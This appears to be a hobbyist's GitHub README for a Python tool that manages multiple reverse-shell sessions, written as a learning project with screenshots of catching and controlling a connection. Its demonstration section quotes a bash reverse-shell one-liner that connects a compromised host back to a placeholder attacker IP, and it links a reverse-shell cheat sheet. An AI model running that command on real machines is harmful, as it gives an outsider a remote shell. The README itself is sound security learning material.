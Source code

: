 # Automatic Goggles

Automatic googles is a program that allows you to manage multiple remote sessions on other machines. It allows you to switch between sessions and run commands on target machines.

### Written in Python 3.6.8

## Things I learned

- I learned how to implement classes in python and that they can make things a lot easier.
- I learned more about socket programming in Python.
- [I learned about the different methods of sending reverse shells.](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- I learned more about programming in python and developed useful skill in regards to building larger programs. 

## Future Additions
- Upload/Download files.
- Some automation with Post-Exploitation.

## Current issues
- When you are in a shell running commands, you have to hit enter twice for the command to actually run and receive output. 
- Many other error handling things I need to go in and do. 

## Demonstration

Starting a listener for the connection...

![listen](pics/listen.png "Listener setup")

Recieving connection from compromised host (my helpful friend Josh Hammrich)...

Reverse shell method used -> `bash -i >& /dev/tcp/<myip>/1337 0>&1`

![receive](pics/recieved_connection.png "Recieving Connection")

Dropping into a shell on the new session...

![shell](pics/connecting_to_shell.png "Connecting to session")

Executing commands...

![cmdexec](pics/code_execution.png "Executing 'whoami'")

Killing connection...

![kill](pics/kill_connection.png "Killing the spawned session")

Running local commands inside of automatic-goggles...

![local](pics/local_command_run.png "Running 'ls' locally")

***
While there is practical use for this project, I will probably just stick with metasploit :) This was for learning experiences and I will continue to work on it and add things when I get ideas and find time!
